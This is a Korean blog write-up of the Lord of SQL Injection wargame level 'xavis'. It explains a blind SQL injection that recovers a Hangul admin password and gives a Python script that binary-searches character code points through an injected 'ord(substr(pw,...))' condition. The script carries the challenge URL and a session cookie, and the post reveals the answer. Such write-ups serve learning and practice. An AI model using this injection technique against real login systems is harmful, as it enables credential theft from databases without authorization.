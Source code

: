 ```yaml
---
title: LOS - 19번 xavis
category: Lord of SQL Injection
---
```


# [19] xavis

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbOK0DW%2FbtrnE823tg2%2FTk9pBzePoYO2Rqn92Lq8Xk%2Fimg.png">

## 풀이
오랜만에 만나는 Blind SQLi 문제다.

solve 조건은 언제나와 같이 admin 계정의 pw를 알아내는 것이다.

 

preg_match를 보면 regex와 like를 필터링하고 있다.

regex는 Sql 정규표현식인 regexp를 걸러내기 위한 것으로 보인다.

정작 =는 필터링 하고 있지 않기 때문에 유의미한 제약이 있어보이진 않는다.

 

그런데 너무 제약이 없다는 점이 좀 꺼림칙하다.

겉으로 보기에는 그냥 기본적인 Blind 문제 같지만... 그럴리가 없는데...?

 

아니나 다를까, 기존의 자동화 코드가 먹히질 않았다.

필터에 걸린 것도 뭐가 잘못된 것도 아닌데 아스키 코드를 전체 다 돌고도 맞는 문자를 뽑아내오지 못했다.

불현듯 머릿속을 스친 생각은... 아 이거 한글인 것 같다ㅋㅋㅋㅋㅋㅋㅋㅠ

 

한글은 유니코드 문자셋을 통해 표현되기 때문에 당연한 말이지만 아스키 번호를 백날 돌아봐야 찾을 수가 없다.

한글로 된 데이터를 탐색하는 방법에는 여러가지가 있을 수 있겠지만 새로운 챌린지가 생긴 김에 그냥 내 식대로 (야매로) 한번 접근해보았다...ㅎ!

 

한글을 표현하는 유니코드는 정해진 16진수 값을 갖고 있고, 이 값들은 10진수로 변환이 가능하다.

10진수로 표현된 값은 대소 비교가 가능하다는 점과 이전에 몇번 등장했었던 ord 함수를 이용해보았다.

* 한글 유니코드 10진수 : 44032 '가' ~ 55203 '힣'

* ord : 해당 문자의 유니코드 값을 반환하는 함수

 

추가로, 이전까지와는 달리 탐색해야하는 번호의 개수가 무지막지하게.. 많기 때문에

세월아 네월아 하나하나 탐색해서는 시간이 과도하게 오래 걸리게 되는 문제에 직면하게 되었다.

그래서 미뤄놨던 2진 탐색 알고리즘까지 한번 구현해보았다.

 

 

2진 탐색이 적용된 LoS 19번 Python 자동화 코드이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 19를 시작합니다")

ans = ""
endpoint = False

for len in range(1, 30):
    if(endpoint):
        break
    print(f"{len}번째 문자에 대해 검색합니다..")
    start = 44032
    end = 55203
    while True:
        if(endpoint):
            print(f"{len}번째 문자는 존재하지 않습니다.")
            print(f"👏 pw의 정체는 [{ans}]입니다!")
            break
        if(start==end):
            endpoint = True
        middle = round((start+end)/2)
        param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))>={middle} %23"
        if("Hello admin" in send(param)):
            param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))={middle} %23"
            if("Hello admin" in send(param)):
                print(f"{len}번째 문자의 십진수 → {middle}")
                ans += chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue
```

① HTTP 요청을 보내는 과정을 send() 함수로 분리했다.

② Sql에서 한글은 3Byte로 저장되는데, 이런저런 예외사항이 있기 때문에 length 함수로 정확한 문자열의 길이를 알아낼 수는 없다고 한다. 그래서 그냥 1부터 30까지 돌다가 pw를 완전히 찾으면 알아서 반복문을 탈출하게끔 구현했다. 설마 pw가 30자 보다 길진 않겠지...

③ 한글이 아닌 다른 문자가 섞여있을 시에는 사용할 수 없다는 분명한 한계점이 있다. 일단 시도해보고 안되면 수정하려고 했지만 운이 좋게도 pw가 그냥 한글 뿐이라서 여기서 구현이 종료되었다. 추가적인 구현을 해야 됐었더라면, 아마 해당 문자의 ord 값이 44032 보다 작을 시 바로 아스키 번호를 돌게끔 해주었을 것 같다.


다음은 해당 코드의 실행 결과이다.


<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzpB3U%2FbtrnBiTbjuW%2FXg3aUFYa1g6w3znjkuyNa1%2Fimg.png">


Blind 공격 결과, 입력할 답은 `우왕굳` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FqxRPT%2FbtrnCl9u4o0%2FgKISYRR1ebKg5PoezUu2n0%2Fimg.png">